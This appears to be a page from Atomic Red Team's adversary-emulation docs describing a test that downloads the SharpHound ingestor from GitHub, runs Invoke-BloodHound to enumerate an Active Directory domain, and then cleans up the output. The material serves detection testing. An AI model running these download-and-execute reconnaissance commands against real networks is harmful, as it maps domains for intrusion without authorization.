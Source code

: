 




<br/>
<br/>

## Atomic Test #2 - Run BloodHound from local disk
Upon execution SharpHound will be downloaded to disk, imported and executed. It will set up collection methods, run and then compress and store the data to the temp directory on the machine. If system is unable to contact a domain, proper execution will not occur.

Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a *BloodHound.zip file.

**Supported Platforms:** Windows


**auto_generated_guid:** a21bb23e-e677-4ee7-af90-6931b57b6350





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | File path for SharpHound payload | String | PathToAtomicsFolder&#92;T1059.001&#92;src|


#### Attack Commands: Run with `powershell`! 


```powershell
write-host "Import and Execution of SharpHound.ps1 from #{file_path}" -ForegroundColor Cyan
import-module #{file_path}\SharpHound.ps1
Invoke-BloodHound -OutputDirectory $env:Temp
Start-Sleep 5
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: SharpHound.ps1 must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}\SharpHound.ps1) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "#{file_path}\SharpHound.ps1"
```
